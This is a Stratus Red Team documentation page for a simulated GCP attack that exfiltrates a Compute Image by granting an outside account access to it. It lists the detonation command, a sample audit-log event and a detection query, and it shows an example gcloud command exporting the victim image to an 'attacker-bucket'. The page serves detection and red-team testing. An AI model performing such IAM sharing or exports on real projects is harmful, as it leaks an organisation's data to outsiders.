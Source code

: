 ```yaml
---
title: Exfiltrate Compute Image by sharing it
---
```


# Exfiltrate Compute Image by sharing it

 <span class="smallcaps w3-badge w3-orange w3-round w3-text-sand" title="This attack technique might be slow to warm up or detonate">slow</span> 
 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: GCP

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates a Compute Image by sharing with a fictitious attacker account. The attacker could then create a snapshot of the image in their GCP project.

<span style="font-variant: small-caps;">Warm-up</span>:

- Create a Compute Image

<span style="font-variant: small-caps;">Detonation</span>:

- Set the IAM policy of the image so that the attacker account has permissions to read the image in their own project

!!! note

	Since the target e-mail must exist for this attack simulation to work, Stratus Red Team grants the role to stratusredteam@gmail.com by default.
	This is a real Google account, owned by Stratus Red Team maintainers and that is not used for any other purpose than this attack simulation. However, you can override
	this behavior by setting the environment variable <code>STRATUS_RED_TEAM_ATTACKER_EMAIL</code>, for instance:

	```bash
	export STRATUS_RED_TEAM_ATTACKER_EMAIL="your-own-gmail-account@gmail.com"
	stratus detonate gcp.exfiltration.share-compute-image
	```


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate gcp.exfiltration.share-compute-image
```
## Detection


You can detect when someone changes the IAM policy of a Compute Image, using the GCP Admin Activity audit logs event <code>v1.compute.images.setIamPolicy</code>. Here's a sample event, shortened for clarity:

```json hl_lines="18 20 25""
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "user-sharing-the-image@domain.tld",
      "principalSubject": "user:user-sharing-the-image@domain.tld"
    },
    "requestMetadata": {
      "callerIp": "34.33.32.31",
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/..."
    },
    "resourceName": "projects/victim-project/global/images/stratus-red-team-victim-image",
    "request": {
      "policy": {
        "version": "3",
        "bindings": [
          {
            "role": "roles/owner",
            "members": [
              "user:attacker@gmail.com"
            ]
          }
        ]
      },
      "@type": "type.googleapis.com/compute.images.setIamPolicy"
    }
  }
}
```

After the attacker has permissions on the Compute Image, they can export it in their own GCP Storage using:

```bash
	gcloud compute images export \
	--destination-uri gs://attacker-bucket/victim-image \
	--image stratus-red-team-victim-image
```

Based on this event, detection strategies may include:

- Alerting when the IAM policy of a Compute Image is changed, especially if such a sharing mechanism is not part of your normal operations. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.images.setIamPolicy"
```


